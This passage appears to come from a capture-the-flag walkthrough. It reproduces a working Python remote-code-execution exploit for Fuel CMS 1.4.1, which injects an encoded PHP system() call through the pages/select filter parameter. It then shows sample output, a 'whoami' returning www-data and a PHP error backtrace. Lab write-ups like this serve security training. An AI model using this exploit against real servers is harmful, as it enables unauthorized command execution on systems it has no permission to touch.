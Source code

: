 ![CMSdashboard](https://user-images.githubusercontent.com/87711310/207956377-2425932b-a44e-4723-adfd-f731f33e6851.png)

Now that we have access to the dashboard as an admin we can look for some exploit. And after some googling we can find a python script for [Fuel CMS v1.4.1 Remote Code Execution](https://www.exploit-db.com/exploits/47138). The script looks like:

```
import requests
import urllib
 
url = "http://target_IP:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start
 
while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    
    r = requests.get(burp0_url)
 
    html = ""
    htmlcharset = r.text.find(html)
 
    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)
 
    print r.text[0:dup]
```

We need to just change the target IP value and execute the script.

```
└──╼ $python exploit.py 
cmd:whoami
systemwww-data

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<p>Severity: Warning</p>
<p>Message:  preg_match(): Delimiter must not be alphanumeric or backslash</p>
<p>Filename: controllers/Pages.php(924) : runtime-created function</p>
<p>Line Number: 1</p>


	<p>Backtrace:</p>
			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php(924) : runtime-created function<br />
			Line: 1<br />
			Function: preg_match			</p>

			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php<br />
			Line: 932<br />
			Function: array_filter			</p>

			<p style="margin-left:10px">
			File: /var/www/html/index.php<br />
```